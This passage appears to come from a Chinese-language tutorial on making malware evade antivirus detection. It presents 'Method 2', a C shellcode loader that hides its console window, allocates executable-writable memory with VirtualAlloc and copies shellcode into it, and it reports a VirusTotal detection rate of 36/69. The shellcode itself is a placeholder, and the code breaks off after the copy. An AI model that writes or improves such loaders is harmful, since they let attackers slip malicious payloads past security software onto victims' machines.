 VT：

![image-20220530115749310](./images/202205301157438.png)

### 方法2 申请动态内存加载（VT免杀率36/69）

下面的代码会申请一段动态内存，然后加载shellcode。

```c
#include <Windows.h>
#include <stdio.h>
#include <string.h>

#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") //windows控制台程序不出黑窗口

unsigned char shellcode[] =
"shellcode";


void main()

{
	// 原po此处内存报错，已修改
    LPVOID Memory;

    Memory=VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    memcpy(Memory, shellcode, sizeof(shellcode));

```